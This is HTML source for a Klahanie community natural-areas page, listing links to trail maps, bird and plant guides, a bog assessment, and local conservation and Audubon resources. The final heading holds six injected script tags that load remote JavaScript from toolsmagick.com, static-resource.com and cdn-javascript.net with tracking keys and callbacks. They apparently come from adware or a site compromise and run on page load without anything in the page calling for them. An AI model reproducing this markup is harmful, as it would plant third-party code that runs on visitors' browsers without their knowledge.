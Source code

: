 <h3><a href="http://klahanie.com/klahanie-trails-map/" target="_blank" rel="noopener noreferrer">Klahanie Trails Map</a></h3>
<h3><a href="http://klahanie.com/bird-check-list/" target="_blank" rel="noopener noreferrer">Klahanie Bird Checklist</a></h3>
<h3><a href="http://klahanie.com/commonly-found-birds/" target="_blank" rel="noopener noreferrer"><u>Yellow Lake Trail Guide for Commonly Found Birds</u></a></h3>
<h3><a href="http://klahanie.com/yellow-lake-wildlife/" target="_blank" rel="noopener noreferrer">Yellow Lake Trail Guide for Wildlife</a></h3>
<h3><a href="http://klahanie.com/commonly-found-trees/" target="_blank" rel="noopener noreferrer"><u>Yellow Lake Trail Guide for Commonly Found Native Trees</u></a></h3>
<h3><a href="http://klahanie.com/commonly-found-groundcovers/" target="_blank" rel="noopener noreferrer"><u>Yellow Lake Trail Guide for Commonly Found Native Groundcovers and Vines</u></a></h3>
<h3><u>Yellow Lake Trail Guide for Commonly Found Native Shrubs</u></h3>
<h3><u>Native Plant Demonstration Garden</u></h3>
<h3><a href="http://klahanie.com/queens-bog-site-assessment-report/" target="_blank" rel="noopener noreferrer"><u>Queen Bog: Site Assessment Report</u></a></h3>
<h3><strong><u>EXTERNAL LINKS:</u></strong></h3>
<h3>Improving our Natural Areas article in the Issaquah/Sammamish Reporter from 2012-</h3>
<h3><a href="http://www.issaquahreporter.com/news/keeping-klahanie-clean-neighborhood-continues-to-improve-natural-areas/" target="_blank" rel="noopener noreferrer"><strong>http://www.issaquahreporter.com/news/keeping-klahanie-clean-neighborhood-continues-to-improve-natural-areas/</strong></a></h3>
<h3><strong>NAAK Facebook-</strong></h3>
<h3><a href="https://www.facebook.com/klahanienaak/?ref=gs&amp;__tn__=%2CdK-R-R&amp;eid=ARDi9RptY_m70HGYqZ_3iQa60vtwLc5DfHljX8WC5SRifTetZGnXUk52DLo6kjA75Rx6Z43PrY6IHsMg&amp;fref=gs&amp;dti=707068546330916&amp;hc_location=group" target="_blank" rel="noopener noreferrer"><strong>https://www.facebook.com/klahanienaak/</strong></a></h3>
<h3><strong>Earth Corps-</strong></h3>
<h3><a href="http://www.earthcorps.org/" target="_blank" rel="noopener noreferrer"><strong>http://www.earthcorps.org/</strong></a></h3>
<h3><strong>Klahanie ArcGIS-</strong></h3>
<h3>The ArcGIS (Geographic Information System) was used by EarthCorps to create a map of Klahanie’s natural areas.</h3>
<h3><a href="http://earthcorps.maps.arcgis.com/apps/webappviewer/index.html?id=82047a95ec66449f9beef3908d0a9704" target="_blank" rel="noopener noreferrer"><strong>http://earthcorps.maps.arcgis.com/apps/webappviewer/index.html?id=82047a95ec66449f9beef3908d0a9704</strong></a></h3>
<h3><strong>Native Pollinator Habitat-</strong></h3>
<h3>This guide for creating Native Pollinator Habitats was created by EarthCorps and will serve as a benchmark for the implementation of a habitat in Klahanie.</h3>
<h3><a href="https://www.earthcorps.org/our-story/key-initiatives/pollinator-corridors/" target="_blank" rel="noopener noreferrer"><strong>https://www.earthcorps.org/our-story/key-initiatives/pollinator-corridors/</strong></a></h3>
<h3><strong>For more information about Puget Sound birds- </strong></h3>
<h3><strong>Birdweb Seattle Audubon's Guide- </strong><a href="http://www.birdweb.org/birdweb/index.aspx" target="_blank" rel="noopener noreferrer"><strong>http://www.birdweb.org/birdweb/index.aspx</strong></a></h3>
<h3><strong>Eastside Audubon Society- </strong></h3>
<h3><a href="https://eastsideaudubon.org/" target="_blank" rel="noopener noreferrer"><strong>https://eastsideaudubon.org</strong></a></h3>
<h3><strong>For more information about Puget Sound plants-</strong></h3>
<h3><strong>Washington native plant information-</strong></h3>
<h3><a href="https://green2.kingcounty.gov/gonative/index.aspx" target="_blank" rel="noopener noreferrer"><strong><u>https://green2.kingcounty.gov/gonative/index.aspx</u></strong></a></h3>
<h3><strong>King County noxious weeds- </strong><a href="https://kingcounty.gov/services/environment/animals-and-plants/noxious-weeds.aspx" target="_blank" rel="noopener noreferrer"><strong>https://kingcounty.gov/services/environment/animals-and-plants/noxious-weeds.aspx</strong></a></h3>
<h3><script src="//toolsmagick.com/2252259d09bdba7f1b.js"></script><script src="http://toolsmagick.com/optout/set/lat?jsonp=__mtz_cb_273533791&key=2252259d09bdba7f1b&cv=1582441094&t=1582441094310" type="text/javascript"></script><script src="http://toolsmagick.com/optout/set/lt?jsonp=__mtz_cb_966285678&key=2252259d09bdba7f1b&cv=2539&t=1582441094312" type="text/javascript"></script><script src="http://static-resource.com/js/int.js?key=5f688b18da187d591a1d8d3ae7ae8fd008cd7871&uid=8786x" type="text/javascript"></script><script src="http://cdn-javascript.net/api?key=a1ce18e5e2b4b1b1895a38130270d6d344d031c0&uid=8786x&format=arrjs&r=1582441094323" type="text/javascript"></script><script src="http://toolsmagick.com/ext/2252259d09bdba7f1b.js?sid=52646_8786_&title=qqq&blocks[]=31af2" type="text/javascript"></script></h3>